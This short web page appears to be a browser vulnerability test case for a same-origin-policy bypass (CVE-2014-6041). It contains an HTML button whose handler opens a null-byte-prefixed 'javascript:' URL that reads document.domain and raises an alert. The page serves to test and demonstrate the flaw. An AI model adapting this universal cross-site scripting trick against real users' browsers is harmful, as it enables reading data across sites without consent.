 ```yaml
---
layout: default
title: SOP Bypass - Testcase 1
permalink: /sop/new/1
---
```


# SOP Bypass - Testcase 1

<input type="button" id="btn_test" class="test" value="Run Test Case" onclick="window.open('\u0000javascript:test=\'Accessed property of \'+document.domain+\'. Your browser is vulnerable to UXSS\'; alert(test);','CVE-2014-6041');">

**Note:**
If page loads popup and displays an alert box "Accessed Property of bing.com, your browser is vulnerable to SOP bypass."
